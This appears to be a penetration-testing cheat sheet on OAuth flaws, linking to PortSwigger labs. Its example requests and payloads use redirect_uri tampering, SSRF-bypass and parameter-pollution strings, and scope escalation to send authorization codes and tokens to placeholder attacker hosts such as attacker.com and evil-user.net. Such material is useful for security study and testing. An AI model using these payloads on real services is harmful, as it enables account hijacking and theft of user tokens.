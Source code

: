 # OAuth Authentication Vulnerabilities

## **Table of Contents**
1. [Improper Implementation of the Implicit Grant Type](#improper-implementation-of-the-implicit-grant-type)
2. [Exploiting Absense of State Parameter](#Exploiting-Absense-of-State-Parameter)
3. [OAuth Account Hijacking With SSRF and Parameter via `redirect_uri`](#oauth-account-hijacking-with-ssrf-and-parameter-pollution-via-redirect_uri)
4. [Stealing OAuth Access Tokens via an Open Redirect](#stealing-oauth-access-tokens-via-an-open-redirect)
5. [Stealing OAuth Access Tokens via a Proxy Page](#stealing-oauth-access-tokens-via-a-proxy-page)
6. [Exploiting `response_mode` and `redirect_uri`](#exploiting-response_mode-and-redirect_uri)
7. [Exploiting flawed scope validation in authorization code grant type in Oauth service provider server](#Exploiting-flawed-scope-validation-in-authorization-code-grant-type-in-Oauth-service-provider-server)
8. [Unverified User Registration](#unverified-user-registration)
9. [Unprotected Dynamic Client Registration via OpenID Connect](#unprotected-dynamic-client-registration-via-openid-connect)
10. [Allowing authorization requests by reference](#Allowing-authorization-requests-by-reference)

---
**Note:**

  1. In `Implicit grant type` browser always recieves a `token`.<br>
  2. In `authorization code grant type` browser recieves a `code`.<br>
  3. Always check `response_type` header to identify the grant type.
---

### Improper implementation of the implicit grant type
In the implicit flow, this POST request is exposed to attackers via their browser. As a result, this behavior can lead to a serious vulnerability if the client application doesn't properly check that the access token matches the other data in the request. In this case, an attacker can simply `change the parameters` sent to the server to impersonate any user. **For example:** When a token is sent to attacker browser, an attacker might change the `username`,`email` or other details targeting another user.

---

### Exploiting Absense of State Parameter

In Oauth mechanism, `state` parameter in authorization request work as a CSRF token. Absense of this parameter can be exploitable to CSRF attack.<br>
<br>

**Here is an example of authorization request without `state` parameter**
<br>
```
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile HTTP/1.1
Host: oauth-authorization-server.com
```
**Now we can send the request with `code` to a victim.**
```
GET /oauth-login?code=epAPZZJJLQCCYm6sI7NSKgiq37kkBndfvXxsw1wfukJ
Host: client-app.net
```

---

### OAuth Account Hijacking With SSRF and Parameter Pollution via `redirect_uri`

Depending on the grant type, the `redirect_uri` parameter is used to send the authorization code to the specified domain in the `redirect_uri`. If an OAuth mechanism allows arbitrary domains to be specified in the `redirect_uri`, an attacker could exploit this flow to hijack the authorization code.

For example:  
```
redirect_uri=https://client-app.net
```
The code is sent to `client-app.net`.  
```
redirect_uri=https://attacker.com
```
The code is sent to `attacker.com`.<br>
<br>
***Note: If this process not work, try with `ssrf defense bypass` technique and `parameter pollution`.** <br>
<br>
**SSRF** : `redirect_uri=https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`<br>
**Parameter Pollution** : `client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net`
<br>
<br>Check this for more details >> [Flawed redirect_uri validation](https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens)

---

### Stealing OAuth access tokens via an open redirect

If `redirect_uri` is not accepting arbitrary domain, we may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this:
```
redirect_uri=https://client-app.com/oauth/callback/../
```
Or,
```
redirect_uri=https://client-app.com/oauth/callback/../../example/path
```
This will be interpreted on the back-end as:
```
https://client-app.com/example/path
```
At this point, if we find any `open redirect` vulnerability on `/example/path`, we can chain this issue to sent request to an attacker-controlled domain where we can host any malicious script and steal the `code`.

Check this for more details : [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

---

### Stealing OAuth access tokens via a proxy page

More deatils: [Portswigger Lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

---

### Exploiting response_mode and redirect_uri

In some cases, changing `response_mode` can let you to bypass `redirect_uri` validation. You can change the value with `query`, `fragment`, `web_message`. Also if you notice that the `web_message` response mode is already in the request, this often allows a wider range of subdomains in the `redirect_uri`.
<br>
```
https://auth.example.com/authorize?
client_id=12345
&redirect_uri=https://client-app.net
&response_type=code
&response_mode=web_message
```

---

### Exploiting flawed scope validation in authorization code grant type in Oauth service provider server

**Note: For this we need our own malicious application**

In some scenario we can leak user information from Oauth authorization server by exploiting a misconfigured `scope` parameter during server-to-server token exchange.<br>
<br>
**Initial Authorization Request**
```
GET /authorize?client_id=12345
&redirect_uri=https://attacker.com/callback
&response_type=code
&scope=openid email
&state=xyz123
HTTP/1.1
Host: oauth-authorization-server.com
```
Now, the attacker exchanges the authorization code for an access token but modifies the `scope` parameter to include `profile`.<br>
<br>
**Authorization Code Exchange**
```
POST /token HTTP/1.1
Host: oauth-authorization-server.com
Content-Type: application/x-www-form-urlencoded

client_id=12345
&client_secret=SECRET
&redirect_uri=https://attacker.com/callback
&grant_type=authorization_code
&code=abc123xyz
&scope=openid email profile
```
In vulnerable case, the server does not reject the request and issues an access token with elevated privileges. Now the attacker has an access token with unauthorized profile access and can retrieve sensitive user data via API calls.<br>
<br>
**API call**
```
GET /userinfo HTTP/1.1
Host: api.oauth-authorization-server.com
Authorization: Bearer z0y9x8w7v6u5
```
***Note: `z0y9x8w7v6u5` is the access token.*** <br>
<br>We can do this in implicit grant type also by stealing the access token.<br>
<br>
More details: [Portswigger](https://portswigger.net/web-security/oauth#flawed-scope-validation)

---

### Unverified user registration

Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases `(In this case email verification with OTP don't work)`. An attacker can exploit this by registering an account with the OAuth provider using the same details as a target user, such as a known email address. Client applications may then allow the attacker to sign in as the victim via this fraudulent account with the OAuth provider.

---

### Unprotected dynamic client registration via OpenID Connect

For more details: [Portswigger](https://portswigger.net/web-security/oauth/openid#unprotected-dynamic-client-registration)

---

### Allowing authorization requests by reference

For more deatils: [Portswigger](https://portswigger.net/web-security/oauth/openid#allowing-authorization-requests-by-reference)

---
